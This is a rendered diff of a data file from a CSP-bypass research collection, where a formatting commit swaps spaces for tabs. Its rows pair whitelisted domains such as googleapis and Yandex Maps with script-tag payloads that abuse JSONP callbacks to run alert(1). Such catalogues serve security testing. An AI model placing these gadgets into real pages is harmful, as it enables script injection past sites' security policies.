

Before and after one commit to renniepak/CSPBypass, a TSV file: data.tsv, drawn as a sheet; only a part is shown, gaps mark what is left out; removed rows and columns are numbered as before the commit, all else as after; the diff covers the shown part only; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

Commit message:
replace spaces with tabs

```diff
--- a/data.tsv
+++ b/data.tsv
-row 113: content.googleapis.com <script src="https://content.googleapis.com/drive/v2beta/apps?callback=alert(1)"></script>
-row 114: core.helloretail.com <script src="https://core.helloretail.com/partner/init.html?jsonp=alert(1)"></script>
-row 115: core-renderer-tiles.maps.yandex.net <script src="https://core-renderer-tiles.maps.yandex.net/tiles?l=mapj&v=1&x=1&y=520&z=11&callback=alert"></script>
-row 116: core-stv-renderer.maps.yandex.net <script src="https://core-stv-renderer.maps.yandex.net/2.x/tiles?l=stj&x=1&y=1&z=11&scale=1&v=1&format=js&callback=alert"></script>
+row 113: content.googleapis.com | <script src="https://content.googleapis.com/drive/v2beta/apps?callback=alert(1)"></script>
+row 114: core.helloretail.com | <script src="https://core.helloretail.com/partner/init.html?jsonp=alert(1)"></script>
```
Also changed, not shown: 18 added rows and 16 removed rows elsewhere in this file.
